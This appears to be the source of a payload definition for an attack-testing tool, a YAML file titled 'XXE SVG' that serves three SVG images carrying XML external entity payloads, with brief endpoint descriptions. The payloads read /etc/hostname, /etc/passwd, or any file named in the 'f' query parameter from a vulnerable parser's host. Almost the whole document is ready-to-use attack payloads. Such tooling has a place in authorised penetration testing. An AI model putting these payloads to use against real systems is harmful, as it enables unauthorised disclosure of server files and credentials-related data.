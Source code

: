 ```yaml
---
title: XXE SVG
description: Returns an SVG payload with XXE to get files
weight: 1
payloads:
  - sort_order: 1
    pattern: /sh$
    is_final: true
    data:
      headers:
        Content-Type: text/xml
        body: |
          <?xml version="1.0" standalone="yes"?>
          <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
          <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
          <text font-size="16" x="0" y="16">&xxe;</text>
          </svg>


  - sort_order: 1
    pattern: /sp$
    is_final: true
    data:
      headers:
        Content-Type: image/svg+xml
        body: |
          <?xml version="1.0" standalone="yes"?>
          <!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
          <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
          <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
          </svg>


  - sort_order: 1
    pattern: /sv$
    is_final: true
    data:
      headers:
        Content-Type: image/svg+xml
        body: |
          <?xml version="1.0" standalone="yes"?>
          <!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file://{{.GET_f}}" > ]>
          <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
          <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
          </svg>

---
```


SVG with XXE payloads

### /sh

attempts to get /etc/hostname

SVG with XXE payloads

### /sp

attempts to get /etc/passwd

### /sv

attempts to get whatever files is supplied via the `f` query parameter

